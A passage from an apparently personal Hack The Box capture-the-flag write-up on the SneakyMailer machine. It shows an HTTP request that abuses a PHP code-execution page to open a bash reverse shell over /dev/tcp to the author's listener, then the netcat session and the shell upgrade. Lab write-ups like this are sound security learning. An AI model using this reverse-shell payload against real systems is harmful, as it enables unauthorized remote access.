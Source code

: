 ![](../../.gitbook/assets/7-ssh-key.png)

Next I tried adding my public SSH key to both `low` and `developer` since they could log in, but was unable to gain access with SSH since `www-data` could not write to those files.

## Road to User

### Further enumeration

got running processes, etc/passwd, could not add ssh keys, next tried reverse shell

```text
GET /php-code-exec.php?var=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.174/46445+0>%261' HTTP/1.1

Host: dev.sneakycorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

sent my reverse shell, and immediately got a connection on my waiting netcat listener

```text
zweilos@kali:~/htb/sneakymailer$ script sneaky-transcript
Script started, output log file is 'sneaky-transcript'.
┌──(zweilos㉿kali)-[~/htb/sneakymailer]
└─$ bash                
zweilos@kali:~/htb/sneakymailer$ nc -lvnp 46445
listening on [any] 46445 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.10.197] 60704
bash: cannot set terminal process group (725): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ python -c 'import pty;pty.spawn("/bin/bash")'
</dev$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ^Z
[1]+  Stopped                 nc -lvnp 46445
zweilos@kali:~/htb/sneakymailer$ stty raw -echo
```